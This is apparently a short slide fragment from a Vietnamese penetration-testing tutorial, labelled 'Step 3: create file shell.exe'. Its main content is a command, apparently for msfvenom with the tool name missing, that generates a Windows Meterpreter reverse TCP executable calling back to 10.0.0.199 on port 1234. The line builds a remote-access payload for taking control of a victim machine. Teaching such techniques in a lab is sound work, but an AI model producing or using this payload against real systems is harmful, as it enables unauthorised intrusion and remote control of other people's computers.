

Bước 3: Tạo file shell.exe
Lệnh: windows/meterpreter/reverse_tcp lport=1234 lhost=10.0.0.199 -f exe > shell.exe